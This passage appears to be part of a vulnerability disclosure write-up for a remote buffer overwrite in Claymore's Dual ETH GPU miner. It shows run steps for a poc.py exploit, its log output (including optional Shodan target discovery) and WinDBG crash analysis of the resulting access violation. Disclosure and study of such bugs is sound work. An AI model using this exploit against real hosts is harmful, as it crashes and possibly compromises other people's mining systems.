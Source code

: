          DCR: Stratum - Connected (pasc-eu2.nanopool.org:15555)
         DCR: Authorized
         DCR: 11/22/17-22:05:12 - New job from pasc-eu2.nanopool.org:15555

2. wait for it to initialize
3. run poc.py <TBD> localhost:3333

        #> poc.py 127.0.0.1:3333
        [poc.py -             <module>() ][    INFO] --start--
        [poc.py -             <module>() ][    INFO] # Claymore's Dual ETH + DCR/SC/LBC/PASC GPU Miner - Remote Buffer Overwrite
        [poc.py -             <module>() ][    INFO] # github.com/tintinweb
        [poc.py -         iter_targets() ][ WARNING] shodan apikey missing! shodan support disabled.
        [poc.py -             <module>() ][    INFO] [i] Target: 127.0.0.1:3333
        [poc.py -             <module>() ][    INFO] [+] connected.
        [poc.py -             <module>() ][    INFO] [+] peer disappeared. vulnerable!
        [poc.py -             <module>() ][ WARNING] error(10054, 'Eine vorhandene Verbindung wurde vom Remotehost geschlossen')
        [poc.py -             <module>() ][    INFO] --done--

<TBD>

WinDBG:

        !analyze -v -f

        *** wait with pending attach
        <...>
        Break-in sent, waiting 30 seconds...
        (12ec.262c): Access violation - code c0000005 (first chance)
        First chance exceptions are reported before any exception handling.
        This exception may be expected and handled.
        <...>
        EthDcrMiner64+0x5449f:
        00007ff6`42e9449f 8808            mov     byte ptr [rax],cl ds:00000059`b3b20000=??
        0:018> !analyze -v -f
        *******************************************************************************
        *                                                                             *
        *                        Exception Analysis                                   *
        *                                                                             *
        *******************************************************************************

       <...>

        FAULTING_IP:
        EthDcrMiner64+5449f
        00007ff6`42e9449f 8808            mov     byte ptr [rax],cl

        EXCEPTION_RECORD:  ffffffffffffffff -- (.exr 0xffffffffffffffff)
        ExceptionAddress: 00007ff642e9449f (EthDcrMiner64+0x000000000005449f)
           ExceptionCode: c0000005 (Access violation)
          ExceptionFlags: 00000000
        NumberParameters: 2
           Parameter[0]: 0000000000000001
           Parameter[1]: 00000059b3b20000
        Attempt to write to address 00000059b3b20000
